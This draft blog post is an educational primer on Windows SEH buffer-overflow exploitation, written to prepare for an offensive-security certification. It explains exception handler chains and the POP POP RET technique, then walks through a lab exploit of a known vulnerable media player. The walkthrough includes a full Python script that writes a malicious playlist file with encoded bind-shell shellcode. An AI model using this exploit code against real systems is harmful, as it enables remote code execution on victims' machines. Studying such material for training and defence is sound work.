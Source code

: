 ```yaml
---
layout: single
title: "SEH primer for CTP"
excerpt: "A primer for n00bs like myself in preparation for the CTP course offered by Offensive Security"
date: 2020-07-10
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/seh/lich_boi.jpg
  teaser: /assets/images/seh/lich_boi.jpg
  teaser_home_page: true
classes: wide
categories:
  - OSCE
  - infosec
tags:
  - ctp
  - osce
  - assembly
---
```

# THIS IS A DRAFT

![omg](/assets/images/seh/lich_boi.jpg)

## A primer on Structured Exception Handling (win32 exploitation)

*This article is written to help those who want a conceptual grasp on SEH exploits, I wrote this to help myself obtain a clear understanding before my CTP course starts.*

##### There are already many fantastic articles on this subject out there (some of which are linked throughout this article), which I encourage you to consume in order to get an even better understanding. 

#### What is an exception Handler?

In simple terms, an Exception Handler is exactly as the name implies, it *handles exceptions*, that is to say, when a program reaches something outside it's known functionality, an exception is raised (eg if a program wants an input between 2 and 5, and you put in 6). 

The program then needs to know how to *handle* this, either with an error message, exit code, or whatever else.

A Structured Exception Handler will follow a structure in  regards to handling exceptions.

For every exception handler, there is an Exception Registration Record structure.
These structures are chained together to create a "linked list" (a linked list contains a sequence of data records).

When an exception is triggered the OS scans down this list to evaluate the other exception functions until it finds a suitable exception handler for the current exception. (If no error is found, windows places a generic handler at the end to ensure it wil be handled in some manner).

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 


#### SO WHY IS THIS RELEVANT TO US??!

Well, when we send an attack string which happens to overwrite the SEH, windows will zero out the CPU registers, thus breaking our jump to shellcode ;(

#### What we can do:

Overwrite SEH with a pointer to POP POP RETN. 

#### Why would we want to do that?

Well, first remember that after passing the first exception, EIP is overwritten with the value of SEH.
Second, the registers to which the bytes are popped into **are not important**, what is important is that when a POP occurs, ESP is shifted +4. When a RET is called, the ESP address are moved into EIP and executed.

Remember that the SEH is located at ESP+8, so if we increment the stack pointer by 8bytes and return to the new pointer we will then be executing nSEH. 

EG a program crashes, registers get zeroed and SP +8 is overwritten with crash string eg 41414141

![SEH_overwrite](/assets/images/seh/SEH_overwrite.jpg)

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 
We also know that the EstablisherFrame (which starts with Next SEH) is located at ESP+8, so if we can load that value into EIP we can continue to control the execution flow of the application.

## Demonstration

To demonstrate this, we use example exercise from [https://www.fuzzysecurity.com/tutorials/expDev/3.html](https://www.fuzzysecurity.com/tutorials/expDev/3.html) (vulnerable software link is broken, software available on exploit-DB [here](https://www.exploit-db.com/exploits/17803)).
**Another invaluable resource for this subject is: [https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/](https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)**


As the steps to exploitation have already been covered, I will not run through them again here, only provide a brief summary.

First, we crash the application with a pattern attack string to locate the offset to SEH, which mona will do the heavy lifting for.

As below we see SEH overwritten and offset located:

![SEH_crash](/assets/images/seh/SEH_crash.jpg)

Calculate offsets with `!mona findmsp`

![SEH_control](/assets/images/seh/SEH_examine.jpg)

Now that we know the offset, we confirm control by crashing with another simple attack string as per the offset specified when we examined with `!mona findmsp`

```
nSEH="B"*4
SEH="C"*4
buffer = "A"*608 + nSEH + SEH + "D"*1384
```


Proof of control: 

![SEH_control](/assets/images/seh/SEH_control.JPG)

Now we choose an address to point to in a module containing POP+POP+RET with `!mona seh`

![SEH_pointer](/assets/images/seh/SEH_pointers.jpg)

Next:
* I choose 0x6162e557
* flip for little endian `"\x57\xe5\x62\x61"`
* modify my malicious playlist generator (obtained from [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/3.html))
* restart the program in immunity, set a break point by going to expression 
* Import playlist
* Pass first exception (shift+F9)
* Hit breakpoint
* step through to call RET (F7)

Now as you can see below, EIP is now at the address of POP+POP+RET, step through until RET is called, and the next screenshot will show we have reached nSEH.

![SEH_break_PPR](/assets/images/seh/SEH_break_PPR.jpg)

![SEH_after_PPR](/assets/images/seh/SEH_after_PPR.jpg)

Now you may have guessed something based of the below sequence, that's right! if we continue we end up in an infinite loop - this is because as we hit BBBB, ANOTHER exception is raised, thus calling POP+POP+RET again...

So now we need to replace nSEH with opcode that will JMP over the next few bytes of space. A safe amount would be 10, and pad the beginning of shellcode with NOPS.

Once this is done some shellcode is generated and placed AFTER SEH but BEFORE the rest of the attack string which should be big enough to overflow the application as below:

```
#!/usr/bin/python -w
shellcode="\x90"*10+("\xd9\xc2\xd9\x74\x24\xf4\xba\x75\xad\xc8\xb1\x58\x33\xc9\xb1"
"\x53\x83\xe8\xfc\x31\x50\x13\x03\x25\xbe\x2a\x44\x39\x28\x28"
"\xa7\xc1\xa9\x4d\x21\x24\x98\x4d\x55\x2d\x8b\x7d\x1d\x63\x20"
"\xf5\x73\x97\xb3\x7b\x5c\x98\x74\x31\xba\x97\x85\x6a\xfe\xb6"
"\x05\x71\xd3\x18\x37\xba\x26\x59\x70\xa7\xcb\x0b\x29\xa3\x7e"
"\xbb\x5e\xf9\x42\x30\x2c\xef\xc2\xa5\xe5\x0e\xe2\x78\x7d\x49"
"\x24\x7b\x52\xe1\x6d\x63\xb7\xcc\x24\x18\x03\xba\xb6\xc8\x5d"
"\x43\x14\x35\x52\xb6\x64\x72\x55\x29\x13\x8a\xa5\xd4\x24\x49"
"\xd7\x02\xa0\x49\x7f\xc0\x12\xb5\x81\x05\xc4\x3e\x8d\xe2\x82"
"\x18\x92\xf5\x47\x13\xae\x7e\x66\xf3\x26\xc4\x4d\xd7\x63\x9e"
"\xec\x4e\xce\x71\x10\x90\xb1\x2e\xb4\xdb\x5c\x3a\xc5\x86\x08"
"\x8f\xe4\x38\xc9\x87\x7f\x4b\xfb\x08\xd4\xc3\xb7\xc1\xf2\x14"
"\xb7\xfb\x43\x8a\x46\x04\xb4\x83\x8c\x50\xe4\xbb\x25\xd9\x6f"
"\x3b\xc9\x0c\x05\x33\x6c\xff\x38\xbe\xce\xaf\xfc\x10\xa7\xa5"
"\xf2\x4f\xd7\xc5\xd8\xf8\x70\x38\xe3\x03\xb8\xb5\x05\x61\xaa"
"\x93\x9e\x1d\x08\xc0\x16\xba\x73\x22\x0f\x2c\x3b\x24\x88\x53"
"\xbc\x62\xbe\xc3\x37\x61\x7a\xf2\x47\xac\x2a\x63\xdf\x3a\xbb"
"\xc6\x41\x3a\x96\xb0\xe2\xa9\x7d\x40\x6c\xd2\x29\x17\x39\x24"
"\x20\xfd\xd7\x1f\x9a\xe3\x25\xf9\xe5\xa7\xf1\x3a\xeb\x26\x77"
"\x06\xcf\x38\x41\x87\x4b\x6c\x1d\xde\x05\xda\xdb\x88\xe7\xb4"
"\xb5\x67\xae\x50\x43\x44\x71\x26\x4c\x81\x07\xc6\xfd\x7c\x5e"
"\xf9\x32\xe9\x56\x82\x2e\x89\x99\x59\xeb\xb9\xd3\xc3\x5a\x52"
"\xba\x96\xde\x3f\x3d\x4d\x1c\x46\xbe\x67\xdd\xbd\xde\x02\xd8"
"\xfa\x58\xff\x90\x93\x0c\xff\x07\x93\x04")

filename="seh.plf"
#0x6162e557
buffer = "A"*608 + "\xeb\x10\x90\x90" + "\x57\xe5\x62\x61" + shellcode+ "B"*(1384-len(shellcode))
textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()

```

Now we generate our malicious playlist and open it in again - this time immunity does not register a crash, and we are able to connect to the bind shell payload:

![SEH_exploited](/assets/images/seh/SEH_exploited1.jpg)

So the takeaways for exploiting SEH are:

* As always calculate the overflow amount
* calculate the offset to SEH
* confirm control of nSEH and SEH
* Use SEH to move up 8 to nSEH
* Use nSEH to Jump back over SEH and into shellcode


#### I hope as an aspiring OSCE/security researcher you found this informative and above else *helpful* - I will be following this up with at least an article on ASLR.


# THIS IS A DRAFT
